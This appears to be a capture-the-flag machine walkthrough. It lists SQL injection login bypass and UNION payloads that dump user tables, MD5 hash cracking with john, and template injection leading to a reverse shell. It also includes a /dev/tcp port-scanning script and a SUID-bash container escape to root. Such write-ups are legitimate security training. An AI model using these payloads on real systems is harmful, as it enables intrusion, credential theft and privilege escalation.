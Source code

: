 1. Enumerate ports

2. Obtain information about the page hosted in that IP with the command whatweb

3. Try to enumerate more info with the Nmap script http-enum

4. Once you've tried to enumerate everything in the web-app you can now try to do somethings in the page itself

5. The first thing you can try is to do an SQL injection in the login page by sending a normal email and intercept the request in order to change the normal email into an SQL query like this: hello@hello.com' or 1=1 -- -

6. This sends you to the admin control page but it requests you a password in order to enter the flask management panel

7. Once you've exploited the login this way you can try another way by adding " ' order by 4-- -" or other numbers until you hit the maximum number of columns

8. Now you can try to insert numbers by adding ' union select 1, 2, 3, 4 

9. You'll see that the number 4 reflects in the server response, so, you can now try to exploit it via a [SSTI - Server Side Template Injection](</General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>) attack

10. As a PoC send something like ' union select 1, 2, 3, {{7\*7}}-- -

11. Because this didn't work out as expected now you can try a common SQL injection enumeration like:
	`' union select 1, 2, 3, table_name from information_schema.tables-- -` - List all tables from all DBs
	`' union select 1, 2, 3, schema_name from information_schema.schemata-- -` - List all DBs
	`' union select 1, 2, 3, table_name from information_schema.tables where table_schema = "main"-- -` - List all tables from the main DB
	`' union select 1, 2, 3, column_name from information_schema.columns where table_schema = "main" and table_name = "user"-- -` - List all the columns from the main DB and the user table
	`' union select 1, 2, 3, {name or id or password or email} from user where {name or id or password or email} = {"admin" or 1}-- -` - List all the content of the user table 1 by 1
	`' union select 1, 2, 3, group_concat(id,":",name,":",password,":", email) from user where {search criteria}-- -` - List all the content of the user table one user per line

12. Once you've obtained the password hashed you can try to identify it with hash-identifier and try to crack it

13. The way to crack it is by running the following command: john --wordlist=__{WORDLIST}__ hash --format=Raw-MD5

14. Now that you've got the password you can finally enter the flask admin panel

15. Going into the page you will come across the used edit panel that has the interesting name parameter that is susceptible to a SSTI attack

16. Try to run the attack to gain remote code execution, and eventually a reverse shell, listed in [SSTI - Server Side Template Injection](</General Info/Tecnologias Web/Ataques/SSTI - Server Side Template Injection.md>).

17. Now that you've a reverse-shell you can see if you're already in the victim's machine by using the command "hostname -I"

18. Now that we know we are in a container we can try to list interesting IPs with `route -n` 

19. Because there is an IP that ends with 1 we have to hack it to enter in the original user machine

20. Use `mount` to see all the mounts in docker and figure out that the directory that contains the flag is, indeed, a mount from the user's machine to the home directory

21. In this machine particularly you can see with `mount | grep home` that the /dev/sda1 is being mounted in /home/augustus

22. One of the last steps is to write a script to enumerate all the open ports in the victim's original machine by creating an script that does the same job as nmap:

```
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[-] Exiting...\n"
        tput cnorm; exit 1
}

trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port open" &
done;wait
tput cnorm
```

>Basic explanation of the script above:
>
>function ctrl_c : Is the function called if the program detects an INT signal such as "Ctrl + C", basically what this function does is echo out a message, make the mouse reappear and exit with a 1 in the exit code. 1 in the exit code is unsuccessful and 0 successful
>
>trap ctrl_c INT : tell the app that when it recieves an INT signal execute the specified function
>
>tput civis and tput cnorm : This command are basically to tell the app to disappear and appear the mouse respectively
>
>for port in $(seq 1 65535); do : This part of the script tells the app to make the port variable have the the value 1, 2, 3, etc..
>
>timeout 1 : Tells the app to kill the process if its duration is more than 1 second
>
>bash -c "__{COMMAND}__" : Makes the bash shell execute the following command
>
>echo ' ' > /dev/tcp/{IP}/$port : Sends an empty string to the machine in the ip specified and in the port that the port variable has that cycle
>
>2>/dev/null : Tells the app to redirect all the error messages to /dev/null
>
>&& echo "\[+] Port $port open" & : Makes the script only run the message if the exit code of the echo is 0. The final & makes the app use multiple threads to run the process of discovering ports
>
>done; wait : done is to tell the app to finish the for iteration and wait is to make the app wait till the end of all the active threads

23. Now that we've created the shell file we can run the following command to make the shell convert the file into base64 and copy it into the clipboard to later on paste it in the victim's machine. The console command is explained in [Pass files easily from one shell to other](</General Info/Shell/Pass files easily from one shell to other.md>).

24. We've seen that the port 22 is open, so, because we've some credentials we can try to enter in the SSH service of the main machine with the user leaked in the mount "augustus" with the following command: `ssh augustus@172.19.0.1` and try the password "superadministrator" later on

25. We've gained access so we now can list all the machine to see if we're finally on the machine with the following commands `hostname -I` and `ip a`. See [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>)

26. After trying a lot of things the way to escalate privileges is to copy the bash to /home/augustus and, from the mount, give that file SUID permissions and make it root property with `chown root:root bash` and `chmod 4755 bash`, enter augustus profile again and run `./bash -p`